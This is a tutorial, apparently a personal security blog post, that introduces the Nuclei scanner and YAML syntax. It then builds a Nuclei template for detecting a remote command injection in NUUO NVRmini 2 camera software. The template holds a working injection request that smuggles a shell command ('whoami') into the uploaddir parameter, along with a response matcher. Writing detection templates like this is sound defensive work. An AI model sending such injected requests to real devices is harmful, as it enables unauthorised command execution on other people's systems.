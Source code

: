 ```yaml
---
title: Development NUCLEI Template for Security Community!
published: true
---
```

## [](#header-3)What is Nuclei?

![](https://wallpaperaccess.com/full/199357.jpg)

Nuclei is used to send requests across targets based on a template leading to zero false positives and providing fast scanning on large number of hosts. Nuclei offers scanning for a variety of protocols including TCP, DNS, HTTP, File, etc. With powerful and flexible templating, all kinds of security checks can be modelled with Nuclei.

## [](#header-3)What is YAML? (redhat.com)

YAML is a data serialization language that is often used for writing configuration files. Depending on whom you ask, YAML stands for yet another markup language or YAML ain't markup language (a recursive acronym), which emphasizes that YAML is for data, not documents.


## [](#header-3)YAML Syntax

```js

# An employee record
name: Martin Devloper
job: Developer
skill: Elite
employed: True
foods:
   Apple
   Orange
   Strawberry
   Mango
languages:
  perl: Elite
  python: Elite
  pascal: Lame
education: |
  4 GCSEs
  3 A-Levels
  BSc in the Internet of Things

  ```


## [](#header-3)NUUO NVRMINI RCE 

The NUUO NVRMINI IP camera device provides a web application environment that allows users to manage the IP cameras. The related web application receives an input called uploaddir from the upgrade_handle.php file from the user. Input ';PAYLOAD;' When transmitted, it executes a system-level command. If the command is executed successfully, /upload_tmp_dir/ is displayed in the page source.

So, to detect this vulnerability, we will execute a command on the system and search for the word /upload_tmp_dir/ in HTTP Response.

Lets do request

```js
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"
```
Find matchs!
```js
matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body
```
All of them
```js
id: nuuo-nvrmini2-upgradehandlephp-rce

info:
  name: NUUO NVRmini 2 3.0.8 - Remote Code Execution
  author: 0x45d
  severity: critical
  tags: rce
  reference: |
    - https://www.exploit-db.com/exploits/45070
    - https://github.com/berkdsnr/NUUO-NVRMINI-RCE
    - https://packetstormsecurity.com/files/151573/NUUO-NVRmini-upgrade_handle.php-Remote-Command-Execution.html
requests:
  - method: GET
    path:
      - "{{BaseURL}}/upgrade_handle.php?cmd=writeuploaddir&uploaddir=%27;whoami;%27"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "/upload_tmp_dir/"
        part: body

      - type: status
        status:
          - 200
```
## [](#header-3)References & Details

"url: https://www.exploit-db.com/exploits/45070"
"url: https://www.rapid7.com/db/modules/exploit/multi/http/nuuo_nvrmini_upgrade_rce/"
"url: https://github.com/projectdiscovery/nuclei/pull/399"
"url: https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/other/nuuo-nvrmini2-rce.yaml"

Follow me on twitter! @0x45d
